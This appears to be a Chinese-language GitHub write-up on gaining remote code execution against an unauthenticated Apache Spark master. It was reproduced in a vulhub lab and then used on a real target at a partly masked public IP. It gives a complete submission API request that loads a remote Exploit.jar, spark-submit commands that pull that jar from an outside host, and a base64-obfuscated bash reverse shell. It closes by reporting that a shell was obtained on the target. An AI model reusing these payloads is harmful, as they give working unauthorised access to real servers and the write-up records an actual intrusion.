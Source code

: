 同事扫到一个Apache Spark未授权页面，以此做为开始  

总结几个大的注意点：  
1、Exploit.jar链接不能是github，会获取不到  
2、反弹shell需要base64编码  
3、base64编码后需要修改Exploit.jar  

目标地址：  http://182.61.xxx.xxx:8080/  
网上搜索针对Apache Spark的漏洞复现，直接打失败，开始调试之旅  

本地搭建环境，使用此项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)，如下图所示，搭建成功  
![image](./pic/1.png)  
访问端口6066，能够成功访问，如下图  
![image](./pic/2.png)  
而目标不能访问，说明目标关闭了端口6066，漏洞复现中讲述还可以通过7077端口利用漏洞，且目标没关闭7077端口  
首先对本地测试针对6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
获得响应如下  
![image](./pic/3.png)  
然后访问
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
替换其中的driverId，成功获得执行结果，如下图  
![image](./pic/4.png)  
这里有一个细节需要注意："id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"，id_部分，我这里更改了Exploit.jar，由,分割变为_分割，用于后面反弹shell  

通过端口7077执行命令  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
还是上述查看方式，成功执行命令  

通过端口7077反弹shell  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}"
```
其中的
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
为
bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1
经过如下网站编码
http://www.jackson-t.ca/runtime-exec-payloads.html
```
执行后成功反弹shell  
![image](./pic/5.png)  

拿到目标测试后，成功拿到shell
